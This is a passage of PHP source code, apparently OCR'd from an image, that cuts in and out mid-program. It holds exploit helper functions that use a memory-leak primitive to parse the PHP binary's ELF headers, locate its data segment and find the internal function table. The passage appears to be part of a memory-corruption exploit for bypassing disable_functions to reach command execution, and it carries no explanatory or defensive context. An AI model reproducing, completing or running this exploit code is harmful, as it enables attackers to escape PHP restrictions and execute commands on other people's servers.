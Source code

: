 ```
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) {

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) {
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
```
